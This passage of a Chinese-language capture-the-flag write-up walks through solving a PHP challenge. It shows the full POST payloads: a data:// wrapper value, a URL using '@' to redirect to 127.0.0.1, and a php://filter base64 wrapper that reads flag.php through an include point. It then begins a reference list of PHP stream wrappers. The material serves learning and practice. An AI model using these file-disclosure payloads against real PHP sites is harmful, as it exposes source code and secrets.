 我们可以利用 <font style="color:#601BDE;">@</font>来进行隔断, 将<font style="color:#601BDE;">@</font>前面的内容当做用户名 （参考[链接]( https://cloud.tencent.com/developer/article/2288231)）

<font style="color:#000000;">而我们需要页面的内容存在这个字符串, 我们可以就利用当前页面来显示, 于是构造</font>

```plain
URL 的格式为 scheme://user:password@address:port/path?query#fragment
http://jasmineaura.github.io@127.0.0.1?query#已经收到Kengwang的礼物啦
```



第三个的话是一个 include 点, 由于我们的 flag 在注释部分, 我们需要将其伪协议和过滤器来进行 base64 编码后输出

```plain
php://filter/convert.base64-encode/resource=flag.php
```

最后的payload为

```plain
pen=data://text/plain;base64,QXVyYQ==
challenge=http://jasmineaura.github.io@127.0.0.1?query#已经收到Kengwang的礼物啦
gift=php://filter/convert.base64-encode/resource=flag.php
```

利用HackBar插件POST参数

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1731479347348-42b6ae4a-fcea-48f6-a95e-b3b86b46d84e.png)

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1731479367493-f90ce832-37fc-496b-a76f-d83aaa43ecd7.png)

最后将密文解码就可得到flag



### 关于PHP常见伪协议的使用
<font style="color:rgb(77, 77, 77);">php支持的伪协议有：</font>

```plain
1 file:// — 访问本地文件系统
2 http:// — 访问 HTTP(s) 网址
3 ftp:// — 访问 FTP(s) URLs
4 php:// — 访问各个输入/输出流（I/O streams）
5 zlib:// — 压缩流
6 data:// — 数据（RFC 2397）
7 glob:// — 查找匹配的文件路径模式
8 phar:// — PHP 归档
9 ssh2:// — Secure Shell 2
10 rar:// — RAR
11 ogg:// — 音频流
12 expect:// — 处理交互式的流
```

这里只介绍几种常见伪协议的用法

#### 1、php://filter
**<font style="color:rgb(77, 77, 77);">php://filter</font>**<font style="color:rgb(77, 77, 77);"> 是一种元封装器， 设计用于数据流打开时的筛选过滤应用。 这对于一体式（all-in-one）的文件函数非常有用，类似 readfile()、 file() 和 file_get_contents()， 在数据流内容读取之前没有机会应用其他过滤器。</font>
